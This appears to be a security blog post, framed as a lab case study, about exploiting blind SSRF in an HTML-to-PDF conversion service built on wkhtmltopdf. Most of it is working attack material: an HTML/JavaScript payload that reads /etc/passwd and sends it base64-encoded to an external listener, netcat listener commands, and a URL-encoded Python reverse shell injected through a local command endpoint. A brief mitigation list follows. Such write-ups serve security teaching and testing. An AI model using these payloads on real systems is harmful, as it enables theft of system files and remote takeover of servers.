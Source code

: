 ```yaml
---
title: "Exploring Blind SSRF Vulnerabilities in HTML to PDF Conversion Applications"
date: 2022-05-07 19:08:00
categories: [ssrf-vulnerabilies]
tags: [ssrf]
---
```


## Overview

This post delves into a case study of a blind Server-Side Request Forgery (SSRF) vulnerability within a fictitious application designed for converting HTML documents to PDFs. The application, which is a simulated target in a controlled environment, highlights the subtlety and potential impact of SSRF vulnerabilities, especially when they do not provide direct feedback or error messages.

## Testing Environment and Setup

The target application listens on port 8080 and accepts HTML files for processing into PDF documents. Initial observations indicated that the server's response was identical regardless of the HTML content provided, suggesting no visible data processing errors or SSRF indications through the front-end.

## Conducting Blind SSRF Tests

To test for blind SSRF, we employed an external server setup to capture any outbound requests from the application. The test involved submitting an HTML file containing a reference to an image hosted on our external server:

    <!DOCTYPE html>
    <html>
    <body>
        <a>Hello World!</a>
        <img src="http://<SERVICE IP>:PORT/x?=viaimgtag">
    </body>
    </html>


## Simplifying SSRF Blind Testing with Netcat

For our testing purposes, we employ a simple Netcat listener running on a virtual machine (VM), set to listen on port 9090. This setup allows us to capture any incoming requests and observe the web application's external interactions, which are pivotal in identifying and exploiting SSRF vulnerabilities.

### Setting Up the Netcat Listener

Here's the command to set up the Netcat listener, crucial for our SSRF testing:

  
    sudo nc -nlvp 9090
   

This command configures Netcat to listen on all interfaces at port 9090, ready to log any incoming requests.

### Observations After Submitting the HTML File

Upon submitting an HTML file containing external resource references, the application attempts to fetch these resources. This behavior confirms the existence of an SSRF vulnerability as it shows the application making unauthorized external network calls based on HTML content.

## JavaScript Exploitation and Data Exfiltration

Further exploration reveals that the application's PDF conversion tool, wkhtmltopdf, supports JavaScript execution within HTML files. We exploit this feature to perform data exfiltration as demonstrated below:

    
    <html>
    <body>
        <script>
        var xhr = new XMLHttpRequest();
        xhr.open("GET", "file:///etc/passwd", true);
        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) {
                // Encode the file contents in base64
                var b64content = btoa(xhr.responseText);
                // Send the encoded data to our external server
                var exfil = new XMLHttpRequest();
                exfil.open("GET", "http://<EXTERNAL SERVICE IP>:9090/exfil?data=" + b64content, true);
                exfil.send();
            }
        };
        xhr.send();
        </script>
    </body>
    </html>


This script reads the local `/etc/passwd` file and sends its Base64-encoded contents to our Netcat listener, showcasing a direct method of exploiting the SSRF vulnerability to extract sensitive information.


# Blind SSRF Exploitation with Netcat and Base64 Decoding

In this scenario, we use two XMLHttpRequest objects: one for reading local files and another to send this data to our server, encoded in Base64.

## Starting an HTTP Server and Sending Data

We start an HTTP server and send an HTML file that waits for a response and decodes the content after processing.

### Netcat Listener


    sudo nc -nlvp 9090
    Listening on 0.0.0.0 9090


### Base64 Decoding

We decode the information using Base64 to view the data received, which includes commands and system user information.

echo "BASE64_DATA" | base64 -d


## Blind SSRF Exploitation Scenario

We continue to exploit an internal application vulnerable to SSRF to execute remote commands on the target server. In this scenario, we use an HTML document with a specific payload to exploit the application.

### Bash Reverse Shell

We set up and encode a reverse shell payload to gain remote control of the server.

    export RHOST="<VPN/TUN IP>"; export RPORT="<PORT>"; python -c 'import sys, socket, os, pty; s=socket.socket(); s.connect((os.getenv("RHOST"), int(os.getenv("RPORT")))); [os.dup2(s.fileno(), fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'


### Encoded URL Payload

    export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527


### HTML Payload

    <html>
        <body>
            <b>Reverse Shell via Blind SSRF</b>
            <script>
            var http = new XMLHttpRequest();
            http.open("GET","http://host_ip/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true); 
            http.send();
            http.onerror = function(){document.write('<a>Oops!</a>');}
            </script>
        </body>
    </html>


Once we initiate a Netcat listener on our machine and send the above HTML file, we will receive a reverse shell from host.


## Mitigation Strategies

To mitigate blind SSRF vulnerabilities effectively, it is crucial to:

- **Validate and sanitize all incoming data**, especially URLs and file paths, to prevent external resource references.
- **Implement strict allowlists** for outbound connections and protocols that the server is permitted to access.
- **Use secure programming practices** to disable unnecessary HTTP features that could be exploited via SSRF.
- **Regularly update and patch** third-party libraries and tools used for processing user-supplied content.

## Conclusion

Blind SSRF poses significant security risks, especially in applications that process external inputs to interact with internal or external resources. Understanding and implementing robust mitigation strategies are vital for securing web applications against these potential attacks and data breaches.